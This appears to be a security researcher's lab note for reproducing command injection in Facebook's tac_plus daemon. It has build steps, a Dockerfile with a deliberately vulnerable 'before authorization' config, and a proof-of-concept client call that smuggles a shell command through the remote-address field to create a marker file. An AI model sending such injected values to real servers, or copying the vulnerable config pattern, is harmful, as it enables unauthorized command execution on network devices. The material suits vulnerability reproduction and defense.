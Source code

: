 # Facebook tac_plus

## Setup

```bash
# compile daemon with debug symbols
git clone https://github.com/facebook/tac_plus.git
cd tac_plus/tacacs-F4.0.4.28
CFLAGS="-g3 -O0" ./configure
make
# run the daemon without the wrapper script (to make it debuggable)
LD_LIBRARY_PATH=.libs .libs/tac_plus \
    -G \
    -d 5 \
    -l /dev/stdout \
    -p 4949 \
    -C tac_plus.cfg
```

## Examples

This section includes examples of Linux distributions that use the Facebook fork.

### Fedora

- tacacs package
- Upstream: Facebook (https://github.com/facebook/tac_plus)

```Dockerfile
FROM fedora
WORKDIR /tmp
RUN yum update -y && yum install -y tacacs
SHELL ["/bin/bash", "-c"]
RUN echo $'accounting file = /tmp/tac_acc.log\n \
user=DEFAULT {\n \
 before authorization "/bin/false -- \'$user\' \'$name\' \'$address\'"\n \
  service = exec {\n \
    default attribute = permit\n \
  }\n \
}' > /tmp/tac_plus.cfg
CMD ["/usr/sbin/tac_plus", "-G", "-d", "5", "-l", "/dev/stdout", "-p", "4949", "-C", "tac_plus.cfg"]

# docker build -t tac_plus_fedora -f Dockerfile.fedora .
# docker run --rm -p 4949:4949 --name tac_plus_fedora tac_plus_fedora

# tacacs_client --host 127.0.0.1 --port 4949 --username DEFAULT --rem-addr "asd';touch /tmp/tacpluspoc123 #" authorize -c service=exec
# docker exec tac_plus_fedora ls -la /tmp
```